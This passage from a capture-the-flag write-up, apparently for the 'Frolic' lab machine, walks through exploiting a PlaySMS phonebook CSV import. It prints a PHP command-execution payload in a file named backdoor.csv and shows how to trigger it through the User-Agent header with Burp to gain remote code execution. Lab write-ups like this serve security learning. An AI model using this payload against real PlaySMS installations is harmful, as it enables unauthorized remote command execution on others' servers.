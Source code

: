 Now I try with the following exploit, if I read the indications of the script, I must create a **.csv** file with a malicious content that they already give me as an example, when I upload the file in the indicated path, it is uploaded correctly. I capture the traffic using `burpsuite` as proxy and modify the **User-Agent** header to inject my command but I don't get the response in the browser.

```bash
searchsploit -x 42044
burpsuite &>/dev/null & disown

nvim backdoor.csv
#         upload          :)
#         http://10.10.10.111:9999/playsms/index.php?app=main&inc=feature_phonebook&route=import&op=list
#         Upload: backdoor.csv

# Burp: User-Agent: id                Intercept OFF         :(
```

> **backdoor.csv**

```bash
Name   Mobile  Email   Group code      Tags
<?php $t=$_SERVER['HTTP_USER_AGENT']; system($t); ?>    22
```

<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_45.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_46.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_47.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_48.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_49.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_50.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I think the problem resides in the structure of the malicious **.csv** file, I'd better follow the example structure I found on the internet and adapt it to the malicious content of the exploit. Once modified I upload it correctly and inject the command in the indicated **Header** and now I am getting an **RCE**.

```bash
nvim backdoor.csv
```

> **backdoor.csv**

```bash
Name,Mobile,Email,Group code,Tags
<?php $t=$_SERVER['HTTP_USER_AGENT']; system($t); ?>,2,,,
```
